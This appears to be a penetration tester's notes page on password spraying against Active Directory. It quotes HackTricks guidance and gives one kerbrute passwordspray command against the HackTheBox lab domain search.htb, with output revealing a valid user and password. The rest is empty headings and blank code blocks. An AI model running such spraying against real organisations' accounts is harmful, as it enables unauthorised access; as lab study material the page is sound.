 # [Password Spraying](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)

> Once you have found several valid usernames you can try the most common passwords (keep in mind the password policy of the environment) with each of the discovered users.
By default the minimum password length is 7

# [SMB](#smb-1)

# [Example](#example-1)

[kerbrute passwordspray](#kerbrute-passwordspray-users3txt--d-searchhtb---dc-ip-isolationiskey)

# SSH

-------------------------------------------

# SMB

# Example

### kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
```
$ kerbrute passwordspray users3.txt -d search.htb --dc $ip IsolationIsKey?
Version: v1.0.3 (9dad6e1) - 09/19/23 - Ronnie Flathers @ropnop

2023/09/19 05:16:07 >  Using KDC(s):
2023/09/19 05:16:07 >   10.10.11.129:88

2023/09/19 05:16:07 >  [+] VALID LOGIN:  hope.sharp@search.htb:IsolationIsKey?
2023/09/19 05:16:07 >  Done! Tested 4 logins (1 successes) in 0.095 seconds
```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```